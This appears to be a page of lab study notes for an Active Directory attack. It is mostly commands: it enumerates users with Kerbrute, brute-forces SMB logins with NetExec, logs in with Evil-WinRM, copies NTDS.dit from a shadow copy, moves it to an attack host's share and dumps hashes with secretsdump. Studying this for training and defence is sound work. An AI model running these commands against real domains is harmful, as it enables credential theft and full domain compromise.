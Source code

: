 #### Enumerating valid usernames with Kerbrute

```bash
./kerbrute_linux_amd64 userenum --dc 10.129.201.57 --domain inlanefreight.local names.txt
```

#### Launching a brute-force attack with NetExec

```bash
netexec smb 10.129.201.57 -u bwilliamson -p /usr/share/wordlists/fasttrack.txt
```

### Capturing NTDS.dit

#### Connecting to a DC with Evil-WinRM

```bash
evil-winrm -i 10.129.201.57  -u bwilliamson -p 'P@55w0rd!'
```

#### Checking local group membership

```bash
*Evil-WinRM* PS C:\> net localgroup
```

We are looking to see if the account has local admin rights. To make a copy of the NTDS.dit file, we need local admin (`Administrators group`) or Domain Admin (`Domain Admins group`) (or equivalent) rights. We also will want to check what domain privileges we have.

#### Checking user account privileges including domain

```bash
*Evil-WinRM* PS C:\> net user bwilliamson
```

#### Creating shadow copy of C:

```bash
*Evil-WinRM* PS C:\> vssadmin CREATE SHADOW /For=C:
```

#### Copying NTDS.dit from the VSS

```bash
*Evil-WinRM* PS C:\NTDS> cmd.exe /c copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy2\Windows\NTDS\NTDS.dit c:\NTDS\NTDS.dit
```

#### Transferring NTDS.dit to attack host

```bash
*Evil-WinRM* PS C:\NTDS> cmd.exe /c move C:\NTDS\NTDS.dit \\10.10.15.30\CompData
```

#### Extracting hashes from NTDS.dit

```bash
impacket-secretsdump -ntds NTDS.dit -system SYSTEM LOCAL
```
